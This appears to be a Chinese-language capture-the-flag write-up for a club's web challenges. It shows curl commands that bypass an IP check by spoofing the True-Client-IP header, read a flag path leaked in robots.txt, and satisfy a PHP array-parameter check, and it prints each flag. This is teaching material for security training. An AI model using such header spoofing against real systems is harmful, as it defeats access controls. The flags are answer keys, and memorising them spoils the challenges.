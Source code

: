 那我們就可以從 Docs 中知道有兩個主要的 Header，`CF-Connecting-IP 和 True-Client-IP`。那你兩個都試試看就可以拿到 flag 了
```
$ curl -d "user=admin&pass=admin" -H "True-Client-IP: 127.0.0.1" 'https://cdn.itac.club/'
<!DOCTYPE html>
<html>
...
<div class="header">ITAC{1_d0n7_th1nk_4ny1_c4n_s0lv3_th1s_lol}</div>
...
</html>
```

**Flag: ITAC{1_d0n7_th1nk_4ny1_c4n_s0lv3_th1s_lol}**



# Web2
### Information Leak
根據上課的內容，可以嘗試 `robots.txt` 裡面共有兩個路徑 `/flag.txt` 和 `/s3cr3t/`，那你試一下 `/flag.txt` 就可以拿到 flag 了。

**Flag: ITAC{e4sy_inf0_l34k}**

### Basic PHP
一進去就可以看到 source code，以下來講解一下 source code。
```php
<?php

highlight_file(__FILE__);
// 不用管


require_once("flag.php");
// 匯入 flag

if (isset($_GET['input']) && !empty($_GET['input']) && isset($_GET['hi']) && !empty($_GET['hi'])) {
    // 確認 input 和 hi 參數不是空的
    if ($_GET['input'] === "M4g1c_PHP") {
        // 確認 input 為 M4g1c_PHP
        if (is_array($_GET['hi']) && count($_GET['hi']) >= 5) {
            // hi 參數需要是一個長度是5的 array
            die($flag);
            // 給你 flag
        } else {
            // 錯了
            die("hi 參數錯惹");
        }
    } else {
        // 錯了
        die("input 參數錯惹");
    }
}
```
那就可以使用 `curl` 等相關工具構造 HTTP 請求
```
$ curl "https://chal.ctf.itac.club/basicphp/?input=M4g1c_PHP&hi[]=1&hi[]=1&hi[]=1&hi[]=1&hi[]=1"
...
ITAC{Y0u_kn0w_h0w_b4s1c_php_w0rks}
```
